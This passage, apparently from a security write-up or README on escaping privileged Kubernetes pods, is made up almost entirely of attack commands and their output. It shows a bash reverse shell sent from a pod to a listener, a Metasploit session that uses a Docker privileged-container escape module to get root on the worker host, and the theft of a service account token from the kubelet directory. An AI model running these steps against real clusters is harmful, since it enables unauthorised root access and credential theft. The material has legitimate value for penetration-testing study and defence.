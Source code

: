 #### From the pod, fire up a reverse shell
```bash
root@pod-priv:/# /bin/sh -i >& /dev/tcp/10.0.0.127/4444 0>&1
```

#### Catch shell from pod and spawn a shell on the host
```bash
[*] Started reverse TCP handler on 10.0.0.127:4444
msf6 exploit(multi/handler) > [*] Command shell session 1 opened (10.0.0.127:4444 -> 10.0.0.162:24316) at 2020-11-20 11:26:52 -0500

msf6 exploit(multi/handler) > use exploit/linux/local/docker_privileged_container_escape
[*] No payload configured, defaulting to linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/local/docker_privileged_container_escape) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/docker_privileged_container_escape) > set session 1
session => 1
msf6 exploit(linux/local/docker_privileged_container_escape) > run

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 10.0.0.127:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
[*] Writing payload executable to '/tmp/wsKXoIW'
[*] Writing '/tmp/wsKXoIW' (286 bytes) ...
[*] Executing script to exploit privileged container
[*] Searching for payload on host
[*] Sending stage (3008420 bytes) to 10.0.0.162
[*] Meterpreter session 2 opened (10.0.0.127:4444 -> 10.0.0.162:47308) at 2020-11-20 11:28:18 -0500
[*] Sending stage (3008420 bytes) to 10.0.0.162
[*] Meterpreter session 3 opened (10.0.0.127:4444 -> 10.0.0.162:47310) at 2020-11-20 11:28:18 -0500
[*]
[*] Waiting 20s for payload

meterpreter > shell
Process 3068510 created.
Channel 1 created.
whoami
root
hostname
k8s-worker
cat var/lib/kubelet/pods/998357c8-45c7-4089-9651-cb8b185f7da8/volumes/kubernetes.io~secret/default-token-qqgjc/token
eyJhbGciOiJSUzI1NiIsImtpZCI6Ik[REDACTED]
```

### Option 4: Use undock.sh to download your own payload and then execute it spawn the reverse shell 
I'm not sure why you would need this forth option, but I use this before I found Brandon Edwards and Nick Freeman's talk. It works, just adds an unnecessary callback to a remote server. 

